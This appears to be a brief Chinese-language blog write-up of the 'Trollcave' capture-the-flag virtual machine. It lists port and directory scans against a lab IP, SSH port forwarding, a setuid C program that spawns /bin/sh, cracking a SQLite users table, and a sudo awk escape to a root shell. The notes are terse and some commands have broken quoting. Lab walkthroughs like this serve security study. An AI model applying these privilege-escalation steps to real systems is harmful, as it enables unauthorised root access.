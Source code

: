 ```yaml
---
title: trollcave
date: 2020-12-04 23:57:34
tags:
---
```


# Trollcave

# 一 扫描端口

扫描开放端口：`nmap -sV -sC -p- 192.168.0.149 -oA trollcave-allports`  

扫描敏感目录:`gobuster dir -u http://192.168.0.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`  

## 二 信息收集

```
netstat -lntp 查看端口信息
ssh -L 8888:localhost:8888 端口转发
```

通过`setuid`来提权

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc,char *argv[])
{setreuid(1000,1000);//etc/passwd
execve("/bin/sh",NULL,NULL);
}
```

```
base64 exp [空格]
```

![image-20201219234945547](https://i.loli.net/2020/12/19/EPDBCseNmOKpwyl.png)

让所有用户都可以使用。

`chmod 4755`

![image-20201219235146083](https://i.loli.net/2020/12/19/mTdcMQ9foUAsqpS.png)

```
5432是postsql的端口号
```

```
sqlite select * from users; 密码是可进行破解的，运行出来全是明文，可以直接去碰撞的
enter+shift+~+大写C 进行ssh
```

```
sudo -l 查看当前权限
```

/etc/sudoers  去掉

```
awk 可以执行系统命令 sudo awk'{system('/bin/bash')}''
```

